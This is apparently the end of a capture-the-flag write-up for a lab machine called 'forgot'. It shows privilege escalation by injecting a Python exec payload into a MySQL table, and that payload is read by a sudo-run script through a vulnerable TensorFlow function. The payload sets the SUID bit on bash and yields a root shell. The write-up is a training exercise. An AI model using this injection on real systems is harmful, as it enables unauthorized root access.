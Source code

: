 As we can see there a script sitting under `/opt/security/ml_security.py` 

We found in the file the database credentials which is the same as the ssh one.

Here we have the libraries used in the script

```bash
  1 #!/usr/bin/python3
  2 import sys
  3 import csv
  4 import pickle
  5 import mysql.connector
  6 import requests
  7 import threading
  8 import numpy as np
  9 import pandas as pd
 10 import urllib.parse as parse
 11 from urllib.parse import unquote
 12 from sklearn import model_selection
 13 from nltk.tokenize import word_tokenize
 14 from sklearn.linear_model import LogisticRegression
 15 from gensim.models.doc2vec import Doc2Vec, TaggedDocument
 16 from tensorflow.python.tools.saved_model_cli import preprocess_input_exprs_arg_string
```
{: .nolineno }

After looking for vulnerabilities, preprocess_input_exprs_arg_string from tensorflow is vulnerable and we will exploit it for the privilege escalation part. [Here](https://github.com/advisories/GHSA-75c9-jrh4-79mc) is the details about the vulnerability


Here is a structure of the table escalate.

```bash
mysql> desc escalate;
+--------+------+------+-----+---------+-------+
| Field  | Type | Null | Key | Default | Extra |
+--------+------+------+-----+---------+-------+
| user   | text | YES  |     | NULL    |       |
| issue  | text | YES  |     | NULL    |       |
| link   | text | YES  |     | NULL    |       |
| reason | text | YES  |     | NULL    |       |
+--------+------+------+-----+---------+-------+
```

With that in mind, let’s inject a malicious python code into the database, in our case let’s get the root SUID sticky bit set to `/usr/bin/bash`.

```bash
mysql> insert into escalate values ("a","b","c",'hello=exec("""\nimport os\nos.system("chmod +s /usr/bin/bash")""")');
Query OK, 1 row affected (0.01 sec)

mysql> 
[1]+  Stopped                 mysql -u diego -D app -p
diego@forgot:/opt/security$ sudo /opt/security/ml_security.py 
2022-12-17 08:24:14.446433: W tensorflow/stream_executor/platform/default/dso_loader.cc:64] Could not load dynamic library 'libcudart.so.11.0'; dlerror: libcudart.so.11.0: cannot open shared object file: No such file or directory
2022-12-17 08:24:14.446510: I tensorflow/stream_executor/cuda/cudart_stub.cc:29] Ignore above cudart dlerror if you do not have a GPU set up on your machine. 
diego@forgot:/opt/security$ /usr/bin/bash -p
bash-5.0# cat /root/root.txt
1*******************************0
```
{: .nolineno }

There we got it. Thanks for reading and happy hacking y'all!